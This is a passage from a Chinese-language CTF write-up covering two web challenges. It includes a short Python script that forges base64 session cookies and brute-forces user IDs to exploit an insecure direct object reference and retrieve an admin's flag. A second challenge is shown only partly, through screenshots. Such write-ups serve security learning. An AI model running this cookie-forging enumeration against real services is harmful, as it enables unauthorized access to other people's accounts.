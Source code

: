 ### Baking Store Revenge

> {{< spoiler "原圖" >}}
> ![Challenge](https://hackmd.io/_uploads/S1Ty4euHC.png "500px")
> {{< /spoiler >}}
> 復仇，復仇，最後的復仇  
> 可以見得，已經出題目出到瘋了...  
> https://baking-revenge.fhh4ck3rs.taipei/
>
> Author: CXPh03n1x

#### 題解

1. 比起上一題多了個登入按鈕，可以使用任意名稱登入
2. 驗證身份的方式有Cookie中的Session與網址後的id，嘗試爆破尋找有烤過東西的帳號
3. 寫腳本，約在20秒後可發現admin帳號與Flag
   ```python
   for i in tqdm.tqdm(range(65577, 0, -1)):
       session = base64.b64encode(f'{{"id": {i}, "baking": []}}'.encode()).decode()
   
       req = requests.get(f'https://baking-revenge.fhh4ck3rs.taipei/users/{i}',
                          cookies={'session': session}
                          )
   
       if '還沒有烤過任何東西' not in req.text:
           print(req.text)
           break
   ```

   ![image](https://hackmd.io/_uploads/Bkozrx_rC.png)

> Flag: `FhCTF{IDOR_1s_t3rr4bl3_w1th_n0_l1m173d...}`

---

### A Web

> {{< spoiler "原圖" >}}
> ![Challenge](https://hackmd.io/_uploads/B1TXqv4BR.png "500px")
> {{< /spoiler >}}
> Just a WEB, nothing else..  
> 我認真的說..就是一個web，沒有其他的了.  
> https://aweb.fhh4ck3rs.taipei/
>
> Author: xiunG

#### 題解

1. Flag 1/3 ![image](https://hackmd.io/_uploads/HJuSqvVH0.png)

2. Flag 2/3
   ![image](https://hackmd.io/_uploads/HJ7N9vErC.png)
   ![image](https://hackmd.io/_uploads/rya95PVBC.png)
